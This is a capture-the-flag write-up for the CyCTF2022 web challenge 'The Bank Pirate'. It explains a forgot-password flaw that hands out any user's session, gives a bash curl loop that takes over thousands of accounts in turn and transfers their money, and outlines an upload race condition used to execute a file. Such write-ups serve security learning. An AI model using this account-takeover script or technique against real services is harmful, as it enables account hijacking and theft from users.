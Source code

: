 ```yaml
---
published: true
title: The Bank Pirate - CyCTF2022
date: 2022-11-21 03:28:00 +0200
categories: [CTF]
tags: CTF
---
```

# Summary :

It's Banking Application, you can receivce and transfer money with your account, to be able to get ViP access you should have 1.000.000$.

# Methodology :

First thing came into my mind that i need to steal some money to get ViP access, The transfer_money function as shown below we have two paramter amount and receiver account but we can’t maipulate the ID to send money from other account to Our account, Because ID is stored in the session.
<img src="https://i.ibb.co/TPf4g1J/Untitled.png" alt="Untitled" border="0">
Most of the web applications us vulnerable to account takeover through Forgot_password Function, So i went to check how this function is working here.
<img src="https://i.ibb.co/xzpQV6W/2022-11-21-12-26-12-Window.png" alt="2022-11-21-12-26-12-Window" border="0">
After Analyzing the function i found that we can takeover any account, The function asks you for the username and then gives you that user’s session before make sure you are that user.

So now i will try to takeover User 2 and transfer money to my account.
<img src="https://i.ibb.co/xjPNSGf/2022-11-18-12-54-42-SB-Admin-2-Forgot-Password-Mozilla-Firefox.png" alt="2022-11-18-12-54-42-SB-Admin-2-Forgot-Password-Mozilla-Firefox" border="0">
Successfully I tookover the account and transfered money to my account.
<img src="https://i.ibb.co/JFv8JKK/2022-11-18-12-55-12-Mozilla-Firefox.png" alt="2022-11-18-12-55-12-Mozilla-Firefox" border="0">
Now i need to autmate this proccess to get 1 million dollar, Basically the script takeover the accounts sequentially and transfer money to my account.
```bash
for i in $(seq 7 6000); do
 curl -i -s -k  -X $'GET' \
    -H $'Host: 3.248.33.115:40017' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H $'Cookie: PHPSESSID=htr5dtksu0fp2i5121sfblfnod' -H $'Connection: close' \
    -b $'PHPSESSID=htr5dtksu0fp2i5121sfblfnod' \
    $'http://3.248.33.115:40017/forgot-password.php?username='$i
 curl -i -s -k  -X $'GET' \
    -H $'Host: 3.248.33.115:40017' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H $'Cookie: PHPSESSID=htr5dtksu0fp2i5121sfblfnod' -H $'Connection: close' \
    -b $'PHPSESSID=htr5dtksu0fp2i5121sfblfnod' \
    $'http://3.248.33.115:40017/transfere.php?receiver_account=6015&amount=1000' 
done
```
After Waiting some time, Now i have ViP account.
<img src="https://i.ibb.co/5r6p3tH/2022-11-18-16-16-30-The-Pirate-Bank-Dashboard-Mozilla-Firefox.png" alt="2022-11-18-16-16-30-The-Pirate-Bank-Dashboard-Mozilla-Firefox" border="0">
Now we can upload a file with a complaint becase we are ViP and you need to listen.
<img src="https://i.ibb.co/1qN2hJ7/Alec.gif" alt="Alec" border="0">

Let’s analyze how the complaint function works and see how we can abuse the upload function.
<img src="https://i.ibb.co/ZMtf22B/upload.png" alt="upload" border="0">
We can only upload PNG,JPEG and the location for the uploaded file will be randomly generated by syper_random function O.o, Let’s see how random is that.
<img src="https://i.ibb.co/ncTbsYR/2022-11-21-12-38-48-Window.png" alt="2022-11-21-12-38-48-Window" border="0">
Yeah, It's super random.
<img src="https://i.ibb.co/bQKr0x1/giphy-29.gif" alt="giphy-29" border="0">

<img src="https://i.ibb.co/TWKhTny/2022-11-18-16-19-00-b6589fc6ab0dc82cf12099d1c2d40ab994e8410c-png-PNG-Image-900-876-pixels-Moz.png" alt="2022-11-18-16-19-00-b6589fc6ab0dc82cf12099d1c2d40ab994e8410c-png-PNG-Image-900-876-pixels-Moz" border="0">

The Last part of the challenge is similar to that challenge <a href="https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition">RACE-CONDITION</a>
As you see it's the same steps to be vulnerable ^_^.
<img src="https://i.ibb.co/M7bnqmT/RACE-Condition.png" alt="RACE-Condition" border="0">
After we upload a file it's temporary moved to the disk, So we can use Race condition to execute the file we upload on the disk to get the flag.
